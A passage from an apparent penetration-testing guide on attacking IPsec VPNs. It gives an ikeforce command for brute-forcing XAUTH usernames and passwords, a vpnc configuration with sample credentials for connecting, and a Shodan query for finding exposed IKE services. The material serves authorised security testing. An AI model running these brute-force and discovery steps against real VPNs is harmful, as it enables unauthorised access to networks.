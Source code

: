 ### Brute-forcing XAUTH username ad password with ikeforce

To brute force the **XAUTH** \(when you know a valid group name **id** and the **psk**\) you can use a username or list of usernames and a list o passwords:

```text
./ikeforce.py <IP> -b -i <group_id> -u <username> -k <PSK> -w <passwords.txt> [-s 1]
```

This way, ikeforce will try to connect using each combination of username:password.

If you found one or several valid transforms just use them like in the previous steps.

## Authentication with an IPSEC VPN

In Kali **VPNC** is used to establish IPsec tunnels. The **profiles** have to be located in _**/etc/vpnc/**_ **\*\*and you can use the tool \_**vpnc**\_ to call them.  
Example taken from book** Network Security Assessment 3rd Edition\*\*.

```text
root@kali:~# cat > /etc/vpnc/vpntest.conf << STOP
IPSec gateway 10.0.0.250
IPSec ID vpntest
IPSec secret groupsecret123
IKE Authmode psk
Xauth username chris
Xauth password tiffers1
STOP
root@kali:~# vpnc vpntest
VPNC started in background (pid: 6980)...
root@kali:~# ifconfig tun0
```

## Reference Material

* [PSK cracking paper](http://www.ernw.de/download/pskattack.pdf)
* [SecurityFocus Infocus](http://www.securityfocus.com/infocus/1821)
* [Scanning a VPN Implementation](http://www.radarhack.com/dir/papers/Scanning_ike_with_ikescan.pdf)

## Shodan

* `port:500 IKE`

